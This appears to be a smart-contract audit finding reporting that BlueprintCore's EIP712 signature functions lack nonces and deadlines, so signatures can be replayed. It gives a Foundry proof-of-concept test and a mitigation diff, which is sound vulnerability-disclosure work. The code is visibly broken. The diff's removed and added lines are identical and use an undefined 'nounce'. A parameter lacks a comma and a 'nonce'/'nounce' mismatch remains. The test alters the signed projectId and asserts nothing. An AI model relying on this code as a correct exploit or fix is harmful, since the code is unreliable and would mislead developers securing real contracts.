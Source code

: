 Great Ruby Woodpecker

High

# Lack of nonce and deadline in multiple function that uses EIP712 may cause replay attack.

**Description:** 
one of The core functionality of the project is to support gasless implemetation using EIP712 in the `BlueprintCore` contract. the `BlueprintCore` contract use this implementation in the  `createProjectIDAndProposalRequestWithSig`, `createProjectIDAndDeploymentRequestWithSig`, `createAgentWithTokenWithSig`, `createAgentWithWhitelistUsersWithSig`, `createAgentWithSigWithNFT`, `updateWorkerDeploymentConfigWithSig` functions. but they all lack nonce and expiring deadline(timestamp). This could allows an attacker to capture a valid signature and replay it multiple times, potentially causing unexpected behavior or loss of funds.
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L491C14-L491C41

**Impact:** attacker can replay signatures to create unlimited agents, exhausting user token allowances or disrupting protocol operations.

**Proof of Concept:**
i picked the ` createAgentWithTokenWithSig` function as a POC example, we could use a different one too.
paste this in the `BlueprintV5.t.sol` test contract:
```solidity
function test_createAgentReplayAttack3() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
    
        // Generate the signature
        (bytes memory signature, address signerAddress) = generateSignature(projectId, base64Proposal, serverURL);
    
        // Add the payment address and set costs
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.setCreateAgentTokenCost(address(mockToken), 0);
        //blueprint.setFeeCollectionWalletAddress(address(this));
    
        // Give tokens to the signer
        deal(address(mockToken), signerAddress, 1000);
        vm.prank(signerAddress);
        mockToken.approve(address(blueprint), type(uint256).max);
    
        // First transaction (legitimate)
        vm.prank(makeAddr("bigtomony"));
        bytes32 requestID1 = blueprint.createAgentWithTokenWithSig(
            projectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature
        );
        
        // Here's where the replay attack happens - attacker creates a totally different project
        bytes32 differentProjectId = bytes32(uint256(projectId) + 1);
        
        vm.prank(makeAddr("attacker"));
        bytes32 requestID2 = blueprint.createAgentWithTokenWithSig(
            differentProjectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature
        );
        
        //the second call succeeded using the same signature
        bytes32 thirdProjectId = bytes32(uint256(projectId) + 2);
        
        vm.prank(makeAddr("anotherAttacker"));
        blueprint.createAgentWithTokenWithSig(
            thirdProjectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature
        );
    }
```

**Recommended Mitigation:** 
1. add a mapping in the `BlueprintCore.sol` to store different nonce and address as it's key.
2. update the `getRequestDeploymentDigest` param to take the ` uint nonce `
3. set the EIP712 compatible functions to take nonce.
```diff
-   function getRequestDeploymentDigest(bytes32 projectId, string memory base64RecParam, string memory serverURL)
+   function getRequestDeploymentDigest(bytes32 projectId, string memory base64RecParam, string memory      serverURL, uint nonce)
        public
        view
        returns (bytes32)
    {
        bytes32 structHash = keccak256(
            abi.encode(
-                nounce, DEPLOYMENT_REQUEST_TYPEHASH, projectId, keccak256(bytes(base64RecParam)), keccak256(bytes(serverURL))
+                nounce, DEPLOYMENT_REQUEST_TYPEHASH, projectId, keccak256(bytes(base64RecParam)), keccak256(bytes(serverURL))
            )
        );

        return _hashTypedDataV4(structHash);
    }
    ///// BlueprintCore contract /////


+        mapping(address => uint256) public nonces;

         function createAgentWithTokenWithSig(
+       uint nounce     
        bytes32 projectId,
        string memory base64Proposal,
        address privateWorkerAddress,
        string memory serverURL,
        address tokenAddress,
        bytes memory signature
    ) public returns (bytes32 requestID) {
        require(tokenAddress != address(0), "Token address is empty");

        // get EIP712 hash digest
        bytes32 digest = getRequestDeploymentDigest(projectId, base64Proposal, serverURL);

        // get signer address
        address signerAddr = getSignerAddress(digest, signature);
+        require(nonce == nonces[signerAddr], "Invalid nonce");
+       nonces[signerAddr]++;
//.....
    }
```